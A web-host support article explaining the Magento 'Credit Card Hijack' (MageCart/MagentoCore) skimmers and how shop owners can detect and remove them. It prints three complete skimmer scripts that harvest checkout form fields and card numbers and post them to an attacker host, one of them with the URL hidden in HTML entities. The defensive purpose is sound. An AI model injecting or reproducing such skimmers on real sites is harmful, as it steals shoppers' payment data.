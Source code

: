 ```yaml
---
myst:
  html_meta:
    description: The hack Creditcard Hijack is malicious code in Magento that allows
      hackers to intercept financial data. This article explains more and tells you
      how to fix it.
redirect_from:
- /en/best-practices/security/how-to-fix-malicious-javascript-credit-card-hijack/
---
```


<!-- source: https://support.hypernode.com/en/best-practices/security/how-to-fix-malicious-javascript-credit-card-hijack/ -->

# How to Fix Malicious Javascript Credit Card Hijack

The hack *Credit card Hijack* is malicious code in Magento that allows hackers to intercept financial data, such as credit card credentials. This article further explains what this security breach means, what the consequences are and how you can fix it.

*We recommend checking your site with*[*Magereport.com*](http://magereport.com/)*for other vulnerabilities.*

## What Is Credit Card Hijack?

The Credit Card Hijack is the collective name of multiple credit card skimmers which may be injected in Magento and allows hackers to capture unencrypted credit card details (like credentials). Known names are the **MagentoCore** skimmer and the **MageCart** skimmer.

This check indicates whether your shop is injected with malware. However, it is not possible for MageReport to check which malware infected your shop.

With this relatively new way of hacking, malware is added in the browser of your websites’ visitors. This malware intercepts the credit card credentials the moment your customer types them in their browser. At this point the credentials aren’t encrypted yet.

In 2015 we analyzed the malware and found out that a staggering amount of 3500 Magento shops are part of a zombie network that interfere credit card credentials, and send this data to so called command&control servers. (Command&control servers are a network of servers where hackers collect this sort of data). This was the first time we encountered an automated credit card fraud on this scale. It’s obvious hackers have massively improved in becoming more professional in automating large-scale credit card fraud.

[Read more about Credit card Hijack](https://www.byte.nl/blog/widespread-credit-card-hijacking-discovered)

We suspect this leak has been made possible due to unpatched Magento shops. So if you haven’t completely patched your Magento shop yet, make sure you do. Use Magereport.com to check if there are any patches not yet installed.

## What Are the Consequences?

Credit Card Hijack allows hackers to intercept your customers financial data. With this information they can commit global credit card fraud, causing a lot of financial damage.

The fraud can be traced back to May 12th 2015, which implies the malpractice went unnoticed for months and is still active.

## How Do I Fix It?

*Fixing this breach is not an easy task. If you don’t have a lot of knowledge of Magento’s security, we recommend you hire an Magento developer or specialist experienced in Magento security.*

### Apply All Available Magento Patches

Scan your shop with [Magereport.com](http://magereport.com/) to find out which patches have been and have not been installed yet. When a patch isn’t installed, install it with the instructions given.

### Review and Remove

Review all admin users in your system via Magento’s backend (navigate to system>Permissions>Roles). Remove any accounts which you are not actively using and set strong passwords for all admin users you do use.

### Remove Unknown Scripts (PHP & Javascript)

Search your shop for scripts similar to the ones below and remove them. Searching and removing can be done via Magento’s backend. Once logged in to your backend (screenshots below):

1. Navigate to ‘System’ -> Configuration
   ![](_res/_EC5-TnORl1F5LROwDSHdbtXWyqhY6zx7A.png)
1. Go to ‘Design’ under ‘General’
   ![](_res/OYuuBvfAcJuTp9mnQ5m0uHdmap9USRS9nw.png)
1. Scroll down and open HTML Head to check ‘Miscellaneous Scripts’
   ![](_res/RSWx-oakxkntqQ5Mwws3vH6n_vSonTqKXg.png)
1. Scroll down and open Footer to check Miscellaneous HTML
   ![](_res/RUyelZfnnB8vcjKWctD9LYMDicwjrgdaQg.png)

**If Miscellaneous scripts and Miscellaneous HTML are empty, you’re most likely safe. If not, check if they contain the scripts below.**

The script below is an example of a minified version of the [scraper Javascript](https://blog.sucuri.net/2015/06/magento-platform-targeted-by-credit-card-scrapers.html).

```javascript
function jj(e){var t="; "+document.cookie,o=t.split("; "+e+"=");return 2==o.length?o.pop().split(";").shift():void 0}jj("SESSIID")||(document.cookie="SESSIID="+(new Date).getTime()),jQuery(function(e){e("button").on("click",function(){var t="",o="post",n=window.location;if(new RegExp("onepage|checkout").test(n)){for(var c=document.querySelectorAll("input, select, textarea, checkbox"),i=0;i&lt;c.length;i++)if(c[i].value.length&gt;0){var a=c[i].name;""==a&amp;&amp;(a=i),t+=a+"="+c[i].value+"&amp;"}if(t){var l=new RegExp("[0-9]{13,16}"),u=new XMLHttpRequest;u.open(o,e("&lt;div /&gt;").html("&amp;#104;&amp;#116;&amp;#116;&amp;#112;&amp;#115;&amp;#58;&amp;#47;&amp;#47;&amp;#98;&amp;#97;&amp;#100;&amp;#46;&amp;#103;&amp;#117;&amp;#121;&amp;#47;&amp;#106;&amp;#113;&amp;#117;&amp;#101;&amp;#114;&amp;#121;&amp;#46;&amp;#112;&amp;#104;&amp;#112; ").text(),!0),u.setRequestHeader("Content-type","application/x-www-form-urlencoded"),u.send(t+"&amp;asd="+(l.test(t.replace(/s/g,""))?1:0)+"&amp;utmp="+n+"&amp;cookie="+jj("SESSIID")),console.clear()}}})});
```

The script below is an example of Credit Card Hijack’s malicious code. It installs the functions ‘send’ and ‘clk’, which allows hackers to collect the names and content of every common form input element, when your customer clicks a button or submits a form.

```javascript
var snd =null;
window.onload = function () {
 if((new RegExp('onepage')).test(window.location)) {
 send();

 }
};

function clk() {
 var inp=document.querySelectorAll("input, select, textarea, checkbox");
 for (var i=0;i&lt;inp.length;i++){
 if(inp[i].value.length&gt;0) {
 var nme=inp[i].name;
 if(nme=='') { nme=i; }
 snd+=inp[i].name+'='+inp[i].value+'&amp;';
 }
 }

}

function send() {
var btn=document.querySelectorAll("a[href*='javascript:void(0)'],button, input, submit, .btn, .button");
 for (var i=0;i&lt;btn.length;i++){
 var b=btn[i];
 if(b.type!='text' &amp;&amp; b.type!='select' &amp;&amp; b.type!='checkbox' &amp;&amp; b.type!='password' &amp;&amp; b.type!='radio') {
 if(b.addEventListener) {
 b.addEventListener("click", clk, false);
 }else {
 b.attachEvent('onclick', clk);
 }
 }
 }

 var frm=document.querySelectorAll("form");
 for (var i=0;i&lt;frm.length;i++){
 if(frm[i].addEventListener) {
 frm[i].addEventListener("submit", clk, false);
 }else {
 frm[i].attachEvent('onsubmit', clk);
 }
 }

 if(snd!=null) {
 console.clear();
 var cc = new RegExp("[0-9]{13,16}");
 var asd="0";
 if(cc.test(snd)){
 asd="1" ;
 }
var http = new XMLHttpRequest();
http.open("POST","https://bad.guy/jquery.php",true);
http.setRequestHeader("Content-type","application/x-www-form-urlencoded");
http.send("data="+snd+"&amp;asd="+asd+"&amp;id_id=ano.nym");
console.clear();
 }
 snd=null;
 setTimeout('send()', 150);
}
```

The script below was found during the research done by Hypernode. It covers the same functionality as the script above, but is harder to spot because it’s included in a minimised form. In this script Jquery is used to add unnamed click event-handler to every button on the page. If someone clicks the button, the function is triggered and allowed to collect al input data. It checks for credit card numbers and this information is sent off to their data collection server.

```javascript
 function jj(e) {
 var t = "; " + document.cookie
 , o = t.split("; " + e + "=");
 return 2 == o.length ? o.pop().split(";").shift() : void 0
 }
 jj("SESSIID") || (document.cookie = "SESSIID=" + (new Date).getTime())
 , jQuery(function (e) {
 e("button").on("click", function () {
 var t = ""
 , o = "post"
 , n = window.location;
 if (new RegExp("onepage|checkout").test(n)) {
 for (var c = document.querySelectorAll("input, select, textarea, checkbox"), i = 0; i &lt; c.length; i++)
 if (c[i].value.length &gt; 0) {
 var a = c[i].name;
 "" == a &amp;&amp; (a = i)
 , t += a + "=" + c[i].value + "&amp;"
 }
 if (t) {
 var l = new RegExp("[0-9]{13,16}")
 , u = new XMLHttpRequest;
 u.open(o, e("&lt;div /&gt;").html("&amp;#104;&amp;#116;&amp;#116;&amp;#112;&amp;#115;&amp;#58;&amp;#47;&amp;#47;&amp;#98;&amp;#97;&amp;#100;&amp;#46;&amp;#103;&amp;#117;&amp;#121;&amp;#47;&amp;#106;&amp;#113;&amp;#117;&amp;#101;&amp;#114;&amp;#121;&amp;#46;&amp;#112;&amp;#104;&amp;#112; ").text(), !0)
 , u.setRequestHeader("Content-type", "application/x-www-form-urlencoded")
 , u.send(t + "&amp;asd=" + (l.test(t.replace(/s/g, "")) ? 1 : 0) + "&amp;utmp=" + n + "&amp;cookie=" + jj("SESSIID"))
 , console.clear()
 }
 }
 })
 });
```

## Recover Your Shop

Since Credit Card Hijack is an ongoing credit card fraud dating from May 2015, it’s difficult to pinpoint how exactly the hackers got in. We assume it’s due to a combination of various know Magento leaks. It’s likely hackers used these security vulnerablities to set up this credit card fraud.

We recommend you ‘clean’ your shop following the steps written in the article [Recover a Hacked Magento Shop](https://support.hypernode.com/knowledgebase/recover-a-hacked-magento-shop/) after installing all Magento patches, deleting inactive Magento admins and removing malicious code.

## Need Help?

Magento is no easy open source CMS. Although we’re very skilled in hosting Magento shops, making them fast and keeping conversion high, we’re no Magento developers. Luckily, we know a lot of agencies that do know a lot about how Magento works. If you need help, don’t hesitate to [contact one of these agencies](https://www.magereport.com/page/support).
